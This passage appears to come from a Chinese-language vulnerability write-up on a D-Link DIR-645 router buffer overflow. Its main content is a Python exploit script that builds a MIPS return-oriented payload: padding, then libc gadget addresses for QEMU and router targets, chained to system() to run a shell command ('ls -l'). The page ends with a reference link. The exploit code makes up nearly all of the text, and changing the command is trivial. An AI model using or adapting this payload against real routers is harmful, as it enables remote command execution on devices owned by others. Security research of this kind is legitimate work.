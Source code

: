 ![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g5cdntso9vj20fd07lmxp.jpg>)

### **漏洞利用**

	import struct

	def p32(i):

		return struct.pack('<I', i)

	qemu_libc = 0x7f738000

	# qemu_sys_libc = 0x77f34000

	# router_libc = 0x2aaf8000

	system = 0x00053200

	calc_system = 0x000158C8

	call_system = 0x000159CC

	shellcode = "A" * 0x100 # padding

	shellcode += p32(qemu_libc+system-1) # $s0

	shellcode += "A" * 0x10 # $s1 ~ $s4

	shellcode += p32(qemu_libc+call_system) # $s5

	shellcode += "A" * 0x0c # $s6 $s7 $fp

	shellcode += p32(qemu_libc+calc_system) # $ra

	shellcode += "A" * 0x10 # padding

	shellcode += "ls -l" # cmd

	print shellcode

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g5cdo23bwrj20fd061goa.jpg>)

## **参考链接**

<https://larry.ngrep.me/2018/05/16/dlink-dir-645-post-login-xml-bof/>
